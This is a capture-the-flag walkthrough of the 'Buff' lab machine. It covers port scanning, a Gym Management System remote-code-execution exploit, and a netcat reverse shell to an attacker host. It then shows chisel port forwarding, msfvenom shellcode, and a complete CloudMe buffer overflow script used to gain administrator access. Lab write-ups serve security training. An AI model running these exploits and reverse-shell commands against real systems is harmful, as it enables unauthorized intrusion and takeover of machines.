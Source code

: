 ![Buff.PNG](/assets/Machines/Easy/Buff/Buff.png)


1. Send an ICMP echo request to machine's IP address.
```bash
┌──(root㉿est)-[/home/kali]
└─| ping -c 2 10.10.10.198
```


2. Scan open ports with **nmap**.
```bash
┌──(root㉿kali)-[/home/kali]
└─| nmap -p- --open -vv -sS --min-rate 5000 -Pn -n 10.10.10.198
```

**Output**
```bash
PORT     STATE SERVICE
7680/tcp open  pando-pub
8080/tcp open  http-proxy
```

3. Visit Web Page

![web.PNG](/assets/Machines/Easy/Buff/web.PNG)

4. If you visit `About` section you can found the version of the system management.

![about.PNG](/assets/Machines/Easy/Buff/about.PNG)

5. Search of any exploit with this system management.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Buff]                                                                          
└─# searchsploit Gym  1.0
-------------------------------------------------------------------------------------- -----------------------
 Exploit Title                                                                        |  Path                           
-------------------------------------------------------------------------------------- -----------------------
Gym Management System 1.0 - 'id' SQL Injection                                        | php/webapps/48936.txt
Gym Management System 1.0 - Authentication Bypass                                     | php/webapps/48940.txt
Gym Management System 1.0 - Stored Cross Site Scripting                               | php/webapps/48941.txt
Gym Management System 1.0 - Unauthenticated Remote Code Execution                     | php/webapps/48506.py
-------------------------------------------------------------------------------------- -----------------------
```

6. Use this `php/webapps/48506.py`.
7. Run exploit
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Buff]
└─# python2 gym_exploit.py 'http://<Machine's IP>:<Port Running Service>/'
```
**Output**
```
            /\
/vvvvvvvvvvvv \--------------------------------------,
`^^^^^^^^^^^^ /============BOKU====================="
            \/

[+] Successfully connected to webshell.
C:\xampp\htdocs\gym\upload> whoami
�PNG

buff\shaun
```


8. Get a reverse shell.

* First, download [nc.exe](https://eternallybored.org/misc/netcat/).
* Then, create a smbserver to share nc.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Buff]
└─# impacket-smbserver shareFolder $(pwd) -smb2support
```
* Next, listen on port.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Buff]
└─# rlwrap nc -lvnp 4444
```
* Finally, access to previous resource:
```
C:\xampp\htdocs\gym\upload> \\10.10.14.33\shareFolder\nc.exe -e cmd 10.10.14.33 4444
```
**Output**
```
C:\xampp\htdocs\gym\upload>whoami
whoami
buff\shaun
```

9. Show **user flag**
```
C:\Users\shaun\Desktop>type user.txt
23aa9705dfe34dca922d205de24794f1
```

---
---
### **Privileges Escalation** 💀
1. Download [winPEAS](https://github.com/carlospolop/PEASS-ng/releases) in target machine.
2. When you run winPEAS you can look this.
```
TCP        127.0.0.1             8888          0.0.0.0               0               Listening         8864            CloudMe
```
3. If you search in Downloads directory in shaun.
```
C:\Users\shaun\Downloads>dir

14/07/2020  12:27    <DIR>          .
14/07/2020  12:27    <DIR>          ..
16/06/2020  15:26        17,830,824 CloudMe_1112.exe
               1 File(s)     17,830,824 bytes
               2 Dir(s)   7,739,269,120 bytes free
```

4. Search for CloudMe exploit.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Buff]
└─# searchsploit cloudme                 
---------------------------------------------------------------------------------------------------------------
 Exploit Title                                                                       |  Path
---------------------------------------------------------------------------------------------------------------
CloudMe 1.11.2 - Buffer Overflow (PoC)                                               | windows/remote/48389.py
```

5. Do `Port Forwarding`, use [chisel](https://github.com/jpillora/chisel)

* First, install chisel.exe in target machine
* Then, use chisel in our machine
```
┌──(root㉿kali)-[/home/…/Machines/Easy/Buff/chisel]
└─# ./chisel server -p 9999 --reverse
```
* Connect how client in target machine
```
C:\Windows\Temp\Process>chisel.exe client 10.10.14.33:9999 R:8888:127.0.0.1:8888
```

6. Now in our machine is run CloudMe in port 8888
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Buff]
└─# lsof -i:8888
COMMAND    PID USER   FD   TYPE DEVICE SIZE/OFF NODE NAME
chisel  262005 root    8u  IPv6 761383      0t0  TCP *:8888 (LISTEN)
```

7. Use msfvenom to create a payload to put into python exploit.
```
┌──(root㉿kali)-[/home/…/Desktop/Machines/Easy/Buff]
└─# msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.23 LPORT=4444 --platform windows -a x86 -b "\x00" -f c EXITFUNC=thread 
```

8. Put previous output in CloudMe python exploit.
```python
import socket

target = "127.0.0.1"

padding1   = b"\x90" * 1052
EIP        = b"\xB5\x42\xA8\x68" # 0x68A842B5 -> PUSH ESP, RET
NOPS       = b"\x90" * 30

#msfvenom -a x86 -p windows/exec CMD=calc.exe -b '\x00\x0A\x0D' -f python
payload = (
b"\xbf\x06\x64\x83\x1a\xdb\xce\xd9\x74\x24\xf4\x5e"
b"\x2b\xc9\xb1\x52\x83\xc6\x04\x31\x7e\x0e\x03\x78"
b"\x6a\x61\xef\x78\x9a\xe7\x10\x80\x5b\x88\x99\x65"
b"\x6a\x88\xfe\xee\xdd\x38\x74\xa2\xd1\xb3\xd8\x56"
b"\x61\xb1\xf4\x59\xc2\x7c\x23\x54\xd3\x2d\x17\xf7"
b"\x57\x2c\x44\xd7\x66\xff\x99\x16\xae\xe2\x50\x4a"
b"\x67\x68\xc6\x7a\x0c\x24\xdb\xf1\x5e\xa8\x5b\xe6"
b"\x17\xcb\x4a\xb9\x2c\x92\x4c\x38\xe0\xae\xc4\x22"
b"\xe5\x8b\x9f\xd9\xdd\x60\x1e\x0b\x2c\x88\x8d\x72"
b"\x80\x7b\xcf\xb3\x27\x64\xba\xcd\x5b\x19\xbd\x0a"
b"\x21\xc5\x48\x88\x81\x8e\xeb\x74\x33\x42\x6d\xff"
b"\x3f\x2f\xf9\xa7\x23\xae\x2e\xdc\x58\x3b\xd1\x32"
b"\xe9\x7f\xf6\x96\xb1\x24\x97\x8f\x1f\x8a\xa8\xcf"
b"\xff\x73\x0d\x84\x12\x67\x3c\xc7\x7a\x44\x0d\xf7"
b"\x7a\xc2\x06\x84\x48\x4d\xbd\x02\xe1\x06\x1b\xd5"
b"\x06\x3d\xdb\x49\xf9\xbe\x1c\x40\x3e\xea\x4c\xfa"
b"\x97\x93\x06\xfa\x18\x46\x88\xaa\xb6\x39\x69\x1a"
b"\x77\xea\x01\x70\x78\xd5\x32\x7b\x52\x7e\xd8\x86"
b"\x35\x8b\x17\x86\xe4\xe3\x25\x96\xe7\x48\xa0\x70"
b"\x8d\xbe\xe5\x2b\x3a\x26\xac\xa7\xdb\xa7\x7a\xc2"
b"\xdc\x2c\x89\x33\x92\xc4\xe4\x27\x43\x25\xb3\x15"
b"\xc2\x3a\x69\x31\x88\xa9\xf6\xc1\xc7\xd1\xa0\x96"
b"\x80\x24\xb9\x72\x3d\x1e\x13\x60\xbc\xc6\x5c\x20"
b"\x1b\x3b\x62\xa9\xee\x07\x40\xb9\x36\x87\xcc\xed"
b"\xe6\xde\x9a\x5b\x41\x89\x6c\x35\x1b\x66\x27\xd1"
b"\xda\x44\xf8\xa7\xe2\x80\x8e\x47\x52\x7d\xd7\x78"
b"\x5b\xe9\xdf\x01\x81\x89\x20\xd8\x01\xa9\xc2\xc8"
b"\x7f\x42\x5b\x99\x3d\x0f\x5c\x74\x01\x36\xdf\x7c"
b"\xfa\xcd\xff\xf5\xff\x8a\x47\xe6\x8d\x83\x2d\x08"
b"\x21\xa3\x67")

overrun    = b"C" * (1500 - len(padding1 + NOPS + EIP + payload))

buf = padding1 + EIP + NOPS + payload + overrun

try:
        s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        s.connect((target,8888))
        s.send(buf)
except Exception as e:
        print(sys.exc_value)

```

9. Listen on chosed port on msfvenom payload.

**Output**
```
C:\Windows\system32>whoami
buff\administrator
```

10. Show **root flag**
```
C:\Windows\system32>type \Users\Administrator\Desktop\root.txt
b737cbaad2cb47070019b3442d6f9e08
```
